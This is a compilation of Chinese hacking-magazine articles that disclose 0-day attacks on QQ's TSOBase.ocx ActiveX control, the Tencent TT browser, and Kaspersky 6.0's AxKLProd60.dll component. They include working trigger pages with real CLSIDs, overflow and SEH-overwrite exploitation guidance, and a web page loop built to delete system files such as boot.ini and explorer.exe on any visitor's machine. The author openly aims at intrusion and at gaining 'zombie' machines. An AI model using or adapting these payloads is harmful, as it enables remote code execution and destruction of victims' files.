- 前置知识：汇编语言，缓冲区溢出基本原理  

## 潜伏的危机——腾讯QQ再现0Day



> 文／图 爱无言

也许大家已经玩过前一阵网上公布的腾讯 Q-Zone 漏洞了，不过那个漏洞是一个已经被腾讯打过补丁的漏洞，针对 QQ2007 不再起作用了。你一定会觉得不爽吧？如果还有个漏洞能通杀 2006 到 2007 的 QQ，你会怎样？下面就随我一起来看看这个令人兴奋的漏洞吧！

一般来说，安装完 QQ 后，我们都会马上使用。但在某些情况下，比如我们忘记了密码，或者要修改密码，或者要在异地登录，或者出现了什么激活选项，这个时候腾讯会很好地帮我们安装安全组件，甚至在经常使用 QQ 下也会自动地安装这个安全组件，如图1所示。



这个名叫“TSOBase.ocx”的安全组件，由于程序员的大意，在程序函数 DownloadPatch 中，对传入的参数没有做任何限制，本来应该是在 256 字节以内的，但却没有加以限制。为什么说是 256 字节呢？看看下面的分析，大家就会明白了！

```asm
mov     ecx, 0A00h
xor     eax, eax
lea     edi, [ebp+var_2F84]
mov     edx, [esi+4Ch]
rep stosd
stosb
push    edx
lea     eax, [ebp+var_2F84]
push    2800h
......  // 以上是参数初始化
loc_10013F6C:
lea     edx, [ebp+var_2F84]
push    edi
push    edx
lea     ecx, [ebp+var_24]
```

```asm
mov     byte ptr [ebp+var_4], 7
call    CFile::Write(void const *, uint)
// 文件写入函数
mov     eax, [esi+3Ch]
mov     ecx, [esi+44h]
......
mov     [esi+44h], ecx
call    ds:WaitForSingleObject
test    eax, eax
jz      short loc_10013FF3
// 利用线程写文件
mov     eax, [esi+90h]
mov     ecx, [esi+38h]
mov     edx, [esi+3Ch]
push    104h ; size_t
// 这里十六进制的104是260，超长参数会导致溢出
push    eax ; char *
lea     eax, [ebp+var_774]
push    eax ; char *
mov     [ebp+var_780], 4
......
```

其实上面这段代码就是下载一个安全补丁到本地来，在保存的时候，文件名是我们可以利用的参数。我们知道，Windows 下的文件名最大长度为 256 字节，如果能成功利用这个参数就可以导致溢出了。

TSOBase.ocx 安全组件的注册 ID 是“{C09B522F-8AED-4E21-A65C-DC1AB652BAEE}”，我们写一段 JavaScript 来测试一下上面的分析是不是能触发这个漏洞。代码文件如下。

```html
<script>
function aiwuyanFun()
{
  iKillDownloadPatch("http://...dddddddddddddeeeeerrrtttttt");
  // 注意这里参数长度远大于256字节
}
</script>
<OBJECT ID="ikill" CLASSID="CLSID:{C09B522F-8AED-4E21-A65C-DC1AB652BAEE}"></OBJECT>
<script>javascript:aiwuyanFun();</script>
```

我们用傲游打开试试，结果如图2和图3所示。看到了吗？傲游出错了！我们再用 OllyDBG 调试一下看看，结果如图4所示。



图2



图3



图4

QQ 的这个漏洞利用很简单，不需要什么 JMP、ESP 或者别的跳转语句，因为程序出错后会自动定位程序指针到这个溢出字符串的开始，大家只要注意 4 字节对齐就行了。当然，这里的 ShellCode 长度要在 260 字节以内，仔细调试 ShellCode，260 个字节足够我们用了。看看我的溢出效果吧！如图5所示。是不是很令人兴奋？



图5

对于这个漏洞的利用，我已经做了录像，大家可以看看，针对 2006 到 2007 的 QQ 都是通杀！安全组件竟然如此不安全，看来我们的肉鸡又要多多了！

- 适合读者：入侵爱好者，溢出爱好者  
- 前置知识：汇编语言，缓冲区溢出基本原理  

## 尚未曝光
### 腾讯浏览器溢出0Day

文／图 爱无言

年前的时候我发现并公布了腾讯浏览器 TTraveler（下面简称 TT）的一个插件溢出漏洞，没想到腾讯的反应还真快，马上升级了 TT，目前最新的版本为 3.2。为了避免插件的溢出漏洞，腾讯竟然把“迷你旋风下载”给去掉了，真是有点……可惜的是，根据我再次反汇编的结果，虽然腾讯对 TT 进行了一次代码修改，增加了许多限制与边界检查，但还是被我发现了多个漏洞，问题出得还不小，只是利用起来比较麻烦，下面就先给大家公布其中的一个，看好了哦。

开始前先说一下我的测试环境，操作系统是 Windows XP SP2，测试对象就是最新的 TT3.2，如图1所示。



图1

大家都知道，过长的超链接是无法被浏览器访问的，这里的浏览器包括 IE、傲游等。如果直接使用 `<a href=http://z1z8.com>1</a>` 这样的语句，在 href 后面填入过长的网站地址，就会出现错误提示，如图2所示。但是如果我们利用一些脚本技巧，如重定向这类的语句，就会迫使浏览器访问这样的过长网站地址。当我们利用这种技巧迫使 TT 访问的时候，发现 TT 出现了一个写入错误，导致程序自动重启了，如图3所示。带着疑惑，我们分析一下这个错误出现的原因。

```asm
// 伪代码框：
call sub_53AE00
// 这个函数里面出错了
```

紧接着看看函数 sub_53AE00。

```asm
mov eax, 104Ch
call __alloca_probe
push ebx
push ebp
mov ebp, [esp+1054h+arg_0]
...
call ds:_wcslen
...
call ds:_wcsicmp
...
loc_53AE85:
mov ebx, ds:wcscpy
lea eax, [esp+105Ch+var_104C]
push ebp
push eax
call ebx ; wcscpy
// 开始写入内存，这里就是出错的地方
...
add esp, 104Ch
retn
```



图2



图3

在浏览器的世界里，我们访问的那些网站地址都要经过宽字符处理，也就是变成 Unicode 的形式，所以为了找到这个错误出现的原因，我们使用 OllyDBG 来调试 TT。

完全载入后，利用 OllyDBG 命令行下断点“bp x MultiByteToWideChar”，下断后，我们开始访问过长的网站地址，两次中断后，我们来到函数“int stdcall sub_405380(wchar_t *, LPARAM lParam)”处。这里我采用静态反汇编的形式给大家讲解这个调用过程，而内存的动态分配则利用 OllyDBG 给大家讲解，这样会好理解一点。在函数 sub_405380 里面，被我们处理成 Unicode 形式的网站地址成为函数的第一个参数，接着我们看下面的代码。

```asm
mov eax, large fs:0
...
mov [esp+10h+var_4], 0
// 前面这些都是对程序出错处理以及参数递栈的过程
push eax ; wchar_t *
```

看了上面的分析，相信大家现在也知道为什么我们访问过长的网址会导致 TT 出错了。其实这里是一个经典的栈溢出，因为返回地址被覆盖了，所以完全可以利用 jmp esp 这样的方式来执行 ShellCode。下面让我们再结合 OllyDBG 的动态调试看看内存的分配，如图4所示。图中出错的函数正是 wcscpy 函数，看看下面的内存里面全部被我们的网址给覆盖了，由此可知我们的分析是正确的。接下来就该考虑如何把我们的 ShellCode 加到这个过长的网址里面了。

这里是一个宽字节溢出，地址是像 0x11002200 这样的格式，我们的 ShellCode 并不在这个区域内。再去看看图的右侧，可以发现过长网址是在 0x0012e40c 这样的地址里面，怎么利用呢？其实很简单。我们知道，程序一旦出错，就会利用 SEH 链表……来进行容错处理。当程序本身有容错处理函数时，系统会先调用程序本身的容错函数处理。而这里的容错函数的地址恰好就在我们能覆盖到的内存空间里面，真是太好了。在出错调用容错函数的时候，“esp+8”的内存地址里面放的就是一个出错时的数据结构，这个结构刚好指向我们的超长网址，我们只要覆盖它不就可以执行 ShellCode 了吗？

说干就干！不过别急，注意我们要找的是什么？是一个 `call dword ptr [esp+8]` 的指令。这个指令的寻找我在这里就不多说了，只说说要注意的地方：我们找到的地址一定要符合宽字符编码，这可以利用 WinHex 来实现，在里面输入你的地址的十六进制，保存后看它是不是一个汉字就行。找到这样的指令后，覆盖我们的 SEH 链表上的处理函数地址，然后放入我们的 ShellCode，这段 ShellCode 也要符合宽字符编码。然后让我们看看利用效果，如图5所示。



图4



图5

我们成功了！不过细心的你一定发现这个消息框的方向怎么反了？这其实是我压栈的顺序问题，接下来的事情就留给大家去研究吧！我这里提供了一个 POC 程序，大家可以自己测试一下。现在已经是凌晨了，这篇文章总算是写出来了，黑防小编一再关心“说尽快成稿，以飨黑防读者”，我加班加点完成了。细细想想，做黑防 Fans 真是幸福啊！

适合读者：入侵爱好者  
前置知识：无

## 卡巴斯基删除任意文件0Day

文／图 爱无言


卡巴斯基是俄罗斯人编写的一款非常不错的杀毒软件，在计算机安全领域的口碑一向很好。当国内杀毒软件日益成为病毒破坏的首选目标时，我为了爱机不被猖狂的病毒破坏，选择使用了卡巴斯基。事实上，你不得不承认国外的杀毒软件，在病毒的检测技术上确实比国内的杀毒软件略高一筹。卡巴斯基出色的主动防御功能和细致的流氓软件清除功能令我很喜欢，但这样一款为安全而生的杀毒软件本身是否安全呢？前一段时间，卡巴斯基出现了一个提升权限的漏洞，让人心存疑虑。

除此之外，卡巴斯基还有没有问题呢？抱着研究的目的，我测试了一下卡巴斯基，在此期间又发现了几个非常严重的安全隐患，这里将其中的一个公布出来，希望和我一样使用卡巴斯基的朋友能够引起注意，也希望卡巴斯基能够做得更好，让我们能有一个安全感。

我这里作测试的是卡巴斯基 6.0，如图1所示。为了测试的准确性，我重新安装了卡巴斯基，所以病毒库过期了。其他版本的卡巴斯基暂时没有做测试，大家可以自行测试一下。



图1

国内外的杀毒软件在使用中，都会使用一种组件杀毒技术，其实就是利用杀毒软件提供的接口，使别的程序在使用中能够同时进行杀毒。不过瑞星好像还有个叫做“嵌入式杀毒”的方法，这和我们讨论的不是一回事，那是另一种程序间调用杀毒的方式，就不细说了。这些组件在杀毒软件安装时被直接安装进入系统。卡巴斯基在安装时，会将一个名叫“AxKLProd60.dll”的库文件注册为组件。这个组件的 KLProd60 类中提供了一个接口函数，名为 DeleteFile，它的原型是“BOOL DeleteFile(char* FilePath)”。这个函数我猜测是用来删除病毒文件的。本来一切都很正常，但却是一个非常不严谨的使用。试想，如果我们能够通过某种方式调用这个接口函数，岂不是能够删除任意文件？

为了证明我的猜想，我制作了一个网页来调用这个接口函数。之所以选择网页，是因为如果我们是编写可执行程序调用这个函数，那就没什么意思了。编过程序的朋友都知道，任何一种编程语言本身就有删除文件的函数，大可不必使用卡巴斯基的接口函数。我们的目的是测试安装了卡巴斯基的用户，会不会在不知情的情况下，莫名地被删除文件。这里大家可以用我提供的网页文件 test.htm 做一下测试，其代码如下。

```html
<SCRIPT language=javascript>
function test()
{
    bug.DeleteFile("E:\\1.txt");
    // 这里就是调用函数DeleteFile，为了测试，我传递给它一个E盘下的1.txt文件的完整路径名
}
</script>
<object classid="clsid:D9EC22E7-1A86-4F7C-8940-0303AE5D6756" name="bug">
    // 这是卡巴斯基组件的注册标识
</object>
<script>javascript:test(); // 调用测试函数
</script>
```

这个测试网页是为了测试通过卡巴斯基的组件接口函数能不能删除我 E 盘下的名为 1.txt 的文件，测试的接口函数就是 DeleteFile。

点击访问这个网页文件，注意，如果你的系统是 Windows XP SP2，这里会有一个安全提示，但是如果上传到网站再访问的话，就不会有安全提示了。打开这个网页后，发现我 E 盘上的 1.txt 文件果真被删除了。等一下，这里只是本地测试了一下，如果把这个网页文件放到网站上，在我们访问时会不会也删除我们电脑上的文件呢？为了测试，我把这个文件放到了我的网站上，地址为 http://z1z8.com/tongji/avp.htm，如图2所示。抱着激动的心情，我马上访问这个网页，E 盘下的 1.txt 文件果真被删除了！



图2

有了这个测试结果，如果我们把代码重写一下，使用一个遍历过程，比如使用 for 循环，遍历的内容为系统文件或者一些指定的文件，就像下面的示例代码一样。当有人访问这个恶意网页后，他电脑上的所有文件就会在弹指间烟飞灰灭了。

```javascript
var delfiles=array('c:\\boot.ini','c:\\windows\\explorer.exe',...);
for(var i=0;i<length;i++)
{
    bug.DeleteFile(delfile[i]);
}
```

最后，我在测试中还发现，利用卡巴斯基的杀毒组件甚至可以获取本地的任意文件，这个漏洞更是危害巨大。但是利用起来非常困难，要求的条件比较苛刻。这个删除任意文件的安全隐患却应该引起我们的警觉。本来是为了电脑更安全才安装卡巴斯基的，没想到却因此让自己的电脑更加置身于危险的网络中。所以在官方没有出现补丁之前，请大家在使用卡巴斯基的时候三思而后行。

适合读者：入侵爱好者，溢出爱好者  
前置知识：汇编语言，缓冲区溢出基本原理

## 超星再现远程溢出0Day

文／图 爱无言

